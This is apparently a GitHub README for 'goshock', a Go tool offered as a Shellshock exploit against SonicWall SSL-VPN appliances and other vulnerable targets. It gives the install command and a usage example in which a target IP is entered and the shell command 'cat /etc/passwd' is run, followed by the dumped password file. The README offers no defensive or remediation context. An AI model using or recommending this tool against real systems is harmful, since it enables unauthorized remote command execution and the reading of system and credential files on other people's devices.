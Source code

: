 # goshock
SonicWall VPN-SSL Exploit* using Golang ( * and other targets vulnerable to shellshock ).

# Install
```
▶ go get -u -v github.com/gustavorobertux/goshock
```
# Basic Usage
```
▶ goshock

TARGET> x.x.x.x
Linux Shell Command> cat /etc/passwd

root:x:0:0:root:/root:/usr/sbin/cli
bin:x:1:1:bin:/bin:/bin/false
daemon:x:2:2:daemon:/sbin:/bin/false
mail:x:8:12:mail:/var/spool/mail:/bin/false
squid:x:23:23:ftp:/var/spool/squid:/bin/false
ntp:x:38:38::/etc/ntp:/bin/false
sshd:x:74:74:sshd:/var/empty:/bin/false
nobody:x:99:99:Nobody:/home/nobody:/bin/false
snort:x:100:101:ftp:/var/log/snort:/bin/false
logwatch:x:102:102::/var/log/logwatch:/bin/false
dnsmasq:x:103:103::/:/bin/false
cron:x:104:104::/:/bin/false
admin::105:105::/:/usr/sbin/cli
```
